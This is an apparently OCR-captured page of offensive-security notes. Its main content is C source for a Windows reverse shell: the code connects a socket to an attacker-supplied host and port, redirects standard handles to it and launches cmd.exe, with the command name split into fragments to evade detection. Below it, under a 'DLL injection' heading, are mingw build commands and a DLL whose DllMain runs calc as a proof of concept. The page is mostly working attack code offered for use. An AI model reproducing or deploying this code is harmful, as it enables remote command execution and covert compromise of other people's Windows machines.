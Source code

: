 ```
    	if (argv[1] == NULL){
		exit(1);
	}

    	struct hostent *host;
	host = gethostbyname(argv[1]);
	strcpy(aip_addr, inet_ntoa(*((struct in_addr *)host->h_addr)));
    
	hax.sin_family = AF_INET;
	hax.sin_port = htons(atoi(argv[2]));
	hax.sin_addr.s_addr =inet_addr(aip_addr);
    
	WSAConnect(Winsock,(SOCKADDR*)&hax, sizeof(hax),NULL,NULL,NULL,NULL);
	if (WSAGetLastError() == 0) {

		memset(&ini_processo, 0, sizeof(ini_processo));

		ini_processo.cb=sizeof(ini_processo);
		ini_processo.dwFlags=STARTF_USESTDHANDLES;
		ini_processo.hStdInput = ini_processo.hStdOutput = ini_processo.hStdError = (HANDLE)Winsock;

		char *myArray[4] = { "cm", "d.e", "x", "e" };
		char command[8] = "";
		snprintf( command, sizeof(command), "%s%s%s%s", myArray[0], myArray[1], myArray[2], myArray[3]);

		CreateProcess(NULL, command, NULL, NULL, TRUE, 0, NULL, NULL, &ini_processo, &processo_info);
		exit(0);
	} else {
		exit(0);
	}    
}
```

## <mark style="color:red;">DLL injection</mark>

```
apt install mingw32-gcc-c++.x86_64
apt install mingw32-winpthreads*

i686-w64-mingw32-g++ -c -DBUILDING_EXAMPLE_DLL main.cpp
i686-w64-mingw32-g++ -shared -o main.dll main.o -Wl,--out-implib,main.a
```

```
#include <windows.h>
int fireLazor()
{
 WinExec("calc", 0);
 return 0;
}

BOOL WINAPI DllMain(HINSTANCE hinstDLL,DWORD fdwReason, LPVOID lpvReserved)
{
 fireLazor();
 return 0;
}
```
